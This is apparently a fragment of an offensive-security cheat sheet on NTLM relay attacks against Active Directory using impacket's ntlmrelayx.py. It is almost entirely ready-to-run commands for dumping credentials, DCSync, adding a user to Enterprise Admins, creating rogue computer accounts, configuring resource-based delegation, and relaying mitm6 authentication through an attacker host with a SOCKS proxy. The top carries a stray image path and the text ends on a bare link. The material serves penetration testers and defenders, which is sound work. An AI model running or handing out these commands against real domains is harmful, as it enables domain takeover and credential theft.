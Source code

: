 * Creds dump

```bash
ntlmrelayx.py -t smb://target
```

* DCSync

```bash
ntlmrelayx.py -t dcsync://dc
```

* Privesc

Add an user to **Enterprise Admins**.

```bash
ntlmrelayx.py -t ldap://dc --escalate-user user1 --no-dump
```

* Create a computer account

```bash
#Create a new computer account through LDAPS
ntlmrelayx.py -t ldaps://dc_IP --add-computer --no-dump --no-da --no-acl

#Create a new computer account through LDAP with StartTLS
ntlmrelayx.py -t ldap://dc_IP --add-computer --no-dump --no-da --no-acl

#Create a new computer account through SMB through the SAMR named pipe (https://github.com/SecureAuthCorp/impacket/pull/1290)
ntlmrelayx.py -t smb://dc_IP --smb-add-computer EVILPC
```

* Kerberos Delegation

Kerberos RBCD are detailled in the following delegation

```bash
#Create a new computer account through LDAPS and enabled RBCD
ntlmrelayx.py -t ldaps://dc_IP --add-computer --delegate-access --no-dump --no-da --no-acl

#Create a new computer account through LDAP with StartTLS and enabled RBCD
ntlmrelayx.py -t ldap://dc_IP --add-computer --delegate-access --no-dump --no-da --no-acl

#Doesn't create a new computer account and use an existing one
ntlmrelayx.py -t ldap://dc_IP --escalate-user <controlled_computer> --delegate-access --no-dump --no-da --no-acl
```

* From a mitm6 authent

```bash
#Attempts to open a socks and write loot likes dumps into a file
ntlmrelayx.py -tf targets.txt -wh attacker.domain.local -6 -l loot.txt -socks
```

* [ADCS ESC8](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-services#bkmrk-http-endpoint---esc8)
